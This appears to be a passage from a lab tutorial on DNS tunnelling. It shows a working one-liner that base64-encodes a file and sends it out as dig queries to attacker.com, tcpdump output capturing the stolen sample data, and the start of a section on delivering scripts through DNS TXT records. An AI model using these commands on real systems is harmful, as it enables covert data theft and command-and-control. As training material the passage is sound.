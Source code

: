 ```
cat data.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/attacker.com/
```

Lastly, we create and add the dig command to send it over the DNS, and finally, we passed it to the bash to be executed.

```
cat data.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/attacker.com/ | awk '{print "dig +short " $1}' | bash
```

Then we need to check the attacker machine tcpdump's terminal. We should have received the data there like below

```
sudo tcpdump -i eth0 udp port 53 -v 

tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes 

22:14:00.287440 IP (tos 0x0, ttl 64, id 60579, offset 0, flags [none], proto UDP (17), length 104) 172.20.0.1.56092 > attacker.domain: 19543% [1au] A? _.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (76) 22:14:00.288208 IP (tos 0x0, ttl 64, id 60580, offset 0, flags [none], proto UDP (17), length 235) 172.20.0.1.36680 > attacker.domain: 23460% [1au] A? TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.attacker.com. 

(207) 22:14:00.289643 IP (tos 0x0, ttl 64, id 48564, offset 0, flags [DF], proto UDP (17), length 69) attacker.52693 > 172.20.0.1.domain: 3567+ PTR? 1.0.20.172.in-addr.arpa. (41) 22:14:00.289941 IP (tos 0x0, ttl 64, id 60581, offset 0, flags [DF], proto UDP (17), length 123) 172.20.0.1.domain > attacker.52693: 3567 NXDomain* 0/1/0 (95)
```

After we have received the data in base64, we perform some cleaning and decode it

```
echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.attacker.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
```

**Commands Execution through C2 Communications**

C2 frameworks use the DNS protocol for communication, such as sending a command execution request and receiving execution results over the DNS protocol. They also use the TXT DNS record to run a dropper to download extra files on a victim machine. This section simulates how to execute a bash script over the DNS protocol.

For example, let's say we have a script that needs to be executed in a victim machine. First, we need to encode the script as a Base64 representation and then create a TXT DNS record of the domain name you control with the content of the encoded script.

Example script is below

```bash
#!/bin/bash 
ping -c 1 attacker.com
```
